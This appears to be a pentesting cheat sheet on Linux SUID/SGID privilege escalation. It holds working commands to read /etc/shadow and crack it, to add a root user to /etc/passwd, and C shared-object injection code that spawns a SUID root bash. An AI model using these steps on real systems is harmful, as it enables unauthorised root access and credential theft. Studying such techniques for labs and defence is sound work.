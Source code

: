 # SUID & SGID Executables
**SUID:** Set User ID is a type of permission that allows users to execute a file with the permissions of a specified user. Those files which have suid permissions run with higher privileges. Assume we are accessing the target system as a non-root user and we found suid bit enabled binaries, then those file/program/command can run with root privileges.

Basically, you can change the permission of any file either using the “Numerical” method or “Symbolic” method. As result, it will replace x from s as shown in the below image which denotes especial execution permission with the higher privilege to a particular file/command. Since we are enabling SUID for Owner (user) therefore bit 4 or symbol s will be added before read/write/execution operation. Basic Enumeration

**GUID** permission is similar to the SUID permission, only difference is – when the script or command with SGID on is run, it runs as if it were a member of the same group in which the file is a member

## 📌Enumeration:
```
find / -uid 0 -perm -4000 -type f 2>/dev/null 			# → Finds SUID files owned by root (UID 0), useful for privilege escalation.
find / -perm -u=s -type f 2>/dev/null | xargs ls -l		# → Finds files with SUID (Set User ID) permission and lists them in long format.
find / -perm -g=s -type f 2>/dev/null | xargs ls -l		# → Finds files with SGID (Set Group ID) permission and lists them in long format.
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;	# → Another way to find SUID files and list them in long format.
find / -group [user] 2>/dev/null				# → Finds files belonging to a specific group, replace [user] with the group name.
find / -user <xxx>						# → Finds files owned by user <xxx>, replace <xxx> with actual username.

find / -user <username> -type f 2>&1 | grep -v “Permission” | grep -v “No such”		# → Finds files owned by a specific user, filters out permission denied and missing file errors.
find / \( -perm -u+s -or -perm -g+s  \) -type f -exec ls -l {} \; 2>/dev/null		# → Finds both SUID and SGID files and lists them with ls -l.
```

A good practice would be to compare executables on this list with GTFOBins (https://gtfobins.github.io). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a pre-filtered list https://gtfobins.github.io/#+suid).

## 📌Privilege Escalation using Nano Editor SUID Binary
The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner’s privilege. Nano is owned by root, which probably means that we can read and edit files at a higher privilege level than our current user has. At this stage, we have two basic options for privilege escalation: reading the /etc/shadow file or adding our user to /etc/passwd.

### Method-1️⃣: Reading the /etc/shadow file
**nano /etc/shadow** will print the contents of the **/etc/shadow** file. We can now use the unshadow tool to create a file crackable by John the Ripper. To achieve this, unshadow needs both the **/etc/shadow** and **/etc/passwd** files.

**Step-1:** Copy and Save both /etc/passwd and /etc/shadow file content in attacking machine.

**Step-2:** Use the unshadow tool to create a file crackable by John the Ripper. 
```
unshadow passwd.txt shadow.txt > passwords.txt
```
**Step-3:** Use John the Ripper to crack the password
```
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

### Method-2️⃣: Add a new user that has root privileges.
**Step-1:** Generate the hash value of the password.
```
openssl passwd -l -salt <username> <password>		# → <username> your new user or currect username and <password> is newpassword.
```

**Step-2:** Open /etc/passwd using nano and chnage or add the new user password hash and shell.
```
root2:<hash>:0:0:root:/root:/bin/bash	# Change the <hash> with the generated hash value.
```
**Step-3:** Switch to the user using the newpassword
```
su <username>
id && whoami
```

## 📌Privilege Escalation using base64 SUID Binary
```
find / -type f -perm -04000 -ls 2>/dev/null
```
Using this command if we see the /usr/bin/base64 is SUID bit set then try to doing some steps to get root privilege.

**Step-1:** Reading the /etc/shadow file and save the content in attacking machine
```
/usr/bin/base64 /etc/shadow | /usr/bin/base64 -d
```
**Step-2:** Reading the /etc/passwd file and save the content in attacking machine.
```
cat /etc/passwd
```
**Step-3:** Use the unshadow tool to create a file crackable by John the Ripper. 
```
unshadow passwd.txt shadow.txt > passwords.txt
```
**Step-4:** Use John the Ripper to crack the password
```
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

## 📌SUID (Shared Object Injection)
```
# => Enumeration:
# ---------------
find / -type f -perm -04000 -ls 2>/dev/null					# → Searches for all SUID binaries (binaries running with owner's privileges).
# From the output, make note of all the SUID binaries.
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"	# → Uses strace to find missing/shared object files that the SUID binary tries to access.
# From the output, notice that a .so file is missing from a writable directory like this:
# open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)

# -------------------------------------------------------------------------------------------------------------------------------------

# => Exploitation:
# ---------------
mkdir /home/user/.config	# → Creates the missing writable directory the SUID binary is trying to access.
cd /home/user/.config		# → Navigates into the target directory.
vim libcalc.c			# → Opens a C source file for writing the malicious shared object code.

# ------------------------------------------------------------------
# Code:
# -----

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}

# ------------------------------------------------------------------

gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c		# → Compiles the malicious shared object (.so) file that gets executed automatically.
/usr/local/bin/suid-so		# → Runs the vulnerable SUID binary which loads and executes libcalc.so with root privileges.
id && whoami			# → Confirms root shell by displaying user ID and username.
```

# 🔎Other Techniques
You can use this article to see other techniques:👉 [https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/]
